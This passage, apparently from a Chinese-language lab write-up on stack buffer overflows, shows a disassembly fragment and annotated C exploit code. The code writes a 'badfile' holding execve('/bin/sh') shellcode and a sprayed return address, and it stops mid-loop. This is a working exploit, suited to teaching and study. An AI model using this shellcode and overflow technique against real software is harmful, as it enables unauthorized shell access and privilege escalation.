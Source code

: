 ```asm
 80491e1:	59                   	pop    %ecx
 80491e2:	5b                   	pop    %ebx
 80491e3:	5d                   	pop    %ebp
 80491e4:	8d 61 fc             	lea    -0x4(%ecx),%esp
 80491e7:	c3                   	ret    
```



其余代码分析，分析见注释：

```c
/* 利用漏洞.c */
/* 一个程序，它创建一个文件“badfile”，其中包含用于启动 shell 的代码 */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define BUFFER_SIZE 517 // 表示缓冲区的大小 
#define OFFSET 400 // 表示缓冲区的偏移量 

char shellcode[] =
  "\x31\xc0"    // xorl    %eax,%eax
  "\x50"        // pushl   %eax
  "\x68""//sh"  // pushl   $0x68732f2f
  "\x68""/bin"  // pushl   $0x6e69622f
  "\x89\xe3"    // movl    %esp,%ebx
  "\x50"        // push   %eax
  "\x53"        // push   %ebx
  "\x89\xe1"    // mov    %esp,%ecx   #
  "\x99"        // cdq                # set %eax to 0
  "\xb0\x0b"    // movb   $0x0b,%al   # set %al to 11
  "\xcd\x80"    // int    $0x80       # execve("/bin/sh",0,0)
;

void fillBuffer(char buffer[BUFFER_SIZE]) {
  // 获取 shellcode 的大小
  int shellcodeSize = sizeof(shellcode);

  //表示最终允许执行 shellcode 的估计返回地址
  //通过使用缓冲区的地址和偏移值（在本例中为缓冲区后 400 字节）
  long *returnAddress = (long *) (buffer+OFFSET);

  //获取缓冲区的长整数指针，以引用堆栈内存地址中的每个 4 字节十六进制数
  long *bufferPtr = (long *) buffer;

  int i;
  int shellcodeCounter = 0;

  //获取缓冲区中以空值终止的 shell 代码的起始索引
  //（即在缓冲区的末尾插入空终止的外壳代码）
  int shellcodeStartIndex = (BUFFER_SIZE-(shellcodeSize+1));


  // 循环 25 次 (每次修改 4-bytes hexadecimal 从缓冲区开始的栈内存地址)
  for (i = 0; i < 25; i++) {
    *bufferPtr = (long) returnAddress; // 将估计返回地址分配给堆栈内存地址中的 4 字节十六进制
    bufferPtr++; // 转到堆栈内存地址中下一个 4 字节十六进制（因为长整数是 4 字节部分）
  }

  // 在缓冲区末尾插入外壳代码，没有终止符
  for (i = shellcodeStartIndex; i < (BUFFER_SIZE-1); i++) {
    buffer[i] = shellcode[shellcodeCounter];
    shellcodeCounter++;
```